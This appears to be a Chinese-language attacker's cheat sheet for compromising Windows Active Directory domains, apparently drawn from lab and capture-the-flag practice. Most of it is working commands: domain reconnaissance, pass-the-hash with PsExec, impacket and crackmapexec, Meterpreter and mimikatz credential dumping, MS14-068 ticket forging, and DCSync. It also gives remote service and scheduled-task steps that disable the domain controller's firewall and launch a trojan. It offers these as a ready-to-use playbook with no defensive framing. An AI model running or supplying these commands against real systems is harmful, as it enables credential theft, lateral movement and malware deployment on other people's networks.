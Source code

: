 [干货 | 域内敏感信息搜集](https://mp.weixin.qq.com/s/nFOAb__c162gMhve3MEh_Q)

## 信息收集

```shell
net time /domain # 判断当前主机是否在域内
net user /domain
获取域内用户的详细信息：
wmic useraccount get /all

net group "domain controllers" /domain # 查看域控 OWA$
ping OWA # 域控主机即可获得域控IP
# 查看所有域成员计算机列表
net group "domain computers" /domain
# 查看域管理员, 看到管理员后 meterpreter > ps , migrate xxx 偷令牌
Net group "domain admins" /domain
# 登陆本机的域管理员
net localgroup administrators /domain
# 查看域成员 假设域为god
net view /domain:god
# 当前计算机名
hostname
# 查看域控列表
beacon> net dclist

# 三种情况
##1. 存在域，但当前用户不是域用户，提示说明权限不够
##2. 存在域，并且当前用户是域用户
##3. 当前网络环境为工作组，不存在域
```


## 攻击 

```shell
# PSTools 使用哈希传递(PTH)攻击 https://mp.weixin.qq.com/s/6BYAeo-5I1XMejyC5ec1pw
PsExec.exe \\192.168.52.138 -u god\administrator -p hongrisec@2022 -s cmd #成功，拿下域控了。
# impact: pip install impacket, win下pyexec用对应的py文件 python psexec.py xxxxxxx
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.138 #成功，拿下域控了。
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.141 #成功，拿下域控了。
# impact: 连接cmd
proxychains python3 wmiexec.py 'administrator:123qwe!ASD@192.168.93.20'
# smbclient 上传文件
proxychains smbclient //192.168.93.20/c$ -U administrator%password
smb > put mimikatz.exe # 上传文件

# msf meterpreter
meterpreter > getsystem
meterpreter > getuid
meterpreter > ps     # 非system时, 查看system权限进程，迁移
meterpreter > migrate 216
meterpreter > load kiwi  # 读取密码, 如果是64位的迁移到64位进程才能看明文
meterpreter > getsystem
meterpreter > creds_kerberos

# mimikatz
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log


win7共享给域控
copy c:\phpstudy\srn7final.exe \\192.168.52.138\c$
设置计划任务启动木马
schtasks /create /tn "test123456" /tr C:\srn7final.exe /sc once /st 14.25 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2021"
```
### ms14-068生成票据, 注入票据
[L1](https://mp.weixin.qq.com/s/tTuH3_YY_C0AuPSLfo8mTQ) [L2](https://www.freebuf.com/articles/web/340783.html)


整理信息

```ts
USER：douser
Domain：DEMO.COM
NTLM：bc23b0b4d5bf5ff42bc61fb62e13886e
SID：S-1-5-21-979886063-1111900045-1414766810-1107
PASSWORD：Dotest123
```
上传MS14-068

```shell
MS14-068.exe -u douser@DEMO.COM -p Dotest123 -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130
dir 
```

通过 mimikatz 导入TGT票据将写入，从而提升为域管理员
```bat
kerberos::purge
kerberos::ptc TGT_douser@DEMO.COM.ccache
exit

dir \\WIN-ENS2VR5TR3N\c$


:: 通过文件共享将马复制到域控中
:: 运行方式2 sc , 关闭域控防火墙 上马
:: cmd 下切换高级用户权限
net use \\192.168.138.138\ipc$ "dc123.com" /user:"administrator"
sc \\WIN-ENS2VR5TR3N create ProFirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start ProFirewall
sc \\WIN-ENS2VR5TR3N create Startup binpath= "C:\shell.exe"
sc \\WIN-ENS2VR5TR3N start Startup

:: 运行方式1 schtasks
(
echo netsh advfirewall set allprofiles state off
echo shell.exe
) >1.bat
copy 1.bat \\WIN-ENS2VR5TR3N\c$ /y
copy shell.exe \\WIN-ENS2VR5TR3N\c$ /y
:: 运行方式2 schtasks
schtasks /create /S WIN-ENS2VR5TR3N /TN "test" /TR c:/1.bat /SC MINUTE /ST 21:27 /ru system /f

:: 下一步 psexec
```

### shadow-credentials
[Link](https://zhuanlan.zhihu.com/p/581451146)

条件: 以下账户拥有 msDS-KeyCredentialLink 属性的写入权限：

* 域管理员账户
* Key Admins 组中的账户
* Enterprise Key Admins 组中的账户
* 对 Active Directory 中的对象具有 GenericAll 或 GenericWrite 权限的帐户
* 机器账户对自身的 msDS-KeyCredentialLink 属性拥有写入权限

### Dsync攻击 
[Dsync](http://www.malabis.site/2022/11/12/春秋云镜-Initial/#横向移动)

DCSync攻击前提 一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

* Administrators组内的用户
* Domain Admins组内的用户
* Enterprise Admins组内的用户
* 域控制器的计算机帐户
* 即：默认情况下域管理员组具有该权限。
```sh
meterpreter > load kiwi
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
# 拿到hash后 通过哈希传递 拿到域控
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"

```

# Article

[域内定位个人PC的三种方式](https://mp.weixin.qq.com/s/uXTo2AbmvMeNesR8rAjImw)